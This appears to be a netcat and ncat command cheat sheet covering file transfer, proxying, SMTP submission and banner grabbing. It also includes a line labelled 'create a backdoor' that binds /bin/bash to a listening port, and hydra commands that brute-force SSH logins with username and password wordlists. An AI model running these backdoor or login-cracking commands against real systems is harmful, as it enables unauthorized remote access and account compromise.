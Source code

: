 $ ncat -l  8080 > file.txt #Start with machine on which data is to be received & start nc is listener mode
$ ncat 192.168.1.100 8080 --send-only < data.txt #on the machine from where data is to be copied, –send-only option will close the connection once the file has been copied

$ ncat -l 10000 -e /bin/bash #create a backdoor,‘e‘ flag attaches a bash to port 10000
$ ncat 192.168.1.100 1000 #a client can connect to port 10000 on server

$ nc -p 31337 -w 5 host.example.com 42 #Open a TCP connection to port 42 of host.example.com, using port 31337 as the source port, with a timeout of 5 seconds
$ nc -s 10.1.2.3 host.example.com 42 #Open a TCP connection to port 42 of host.example.com using 10.1.2.3 as the IP for the local end of the connection
$ nc -lU /var/tmp/dsocket #Create and listen on a Unix Domain Socket
$ nc -x10.2.3.4:8080 -Xconnect host.example.com 42 #Connect to port 42 of host.example.com via an HTTP proxy at 10.2.3.4, port 8080

   
$ ncat -u -l  80 -c  'ncat -u -l 8080' #all the connections for port 80 will be forwarded to port 8080
$ ncat -w 10 192.168.1.100 8080 #Listener mode in ncat will continue to run,configure timeouts with option ‘w’
$ ncat -l -k 8080 #When client disconnects from server, after sometime server also stops listening.force server to stay connected & continuing port listening with option ‘k’.
----------------------------------------------------------------------------------------------------
#when the user knows the format of requests required by the server.
#an email may be submitted to an SMTP server

$ nc localhost 25 << EOF
HELO host.example.com
MAIL FROM: <user@host.example.com>
RCPT TO: <user2@host.example.com>
DATA
Body of email.
.
QUIT
EOF
----------------------------------------------------------------------------------------------------
# it is necessary to first make a connection, and then break the connection when the banner has been retrieved. 
#This can be accomplished by specifying a small timeout with the -w flag
#or by issuing a "QUIT" command to the server

$ echo "QUIT" | nc host.example.com 20-30
SSH-1.99-OpenSSH_3.6.1p2
Protocol mismatch.
220 host.example.com IMS SMTP Receiver Version 0.84 Ready
----------------------------------------------------------------------------------------------------
#parallelized login cracker which supports numerous protocols to attack
hydra -L unix_users.txt -P unix_passwords.txt ssh://192.169.42.33
hydra -l user -P unix_passwords.txt ssh://192.169.42.33
hydra -l root -P root_userpass.txt ssh://192.169.42.33
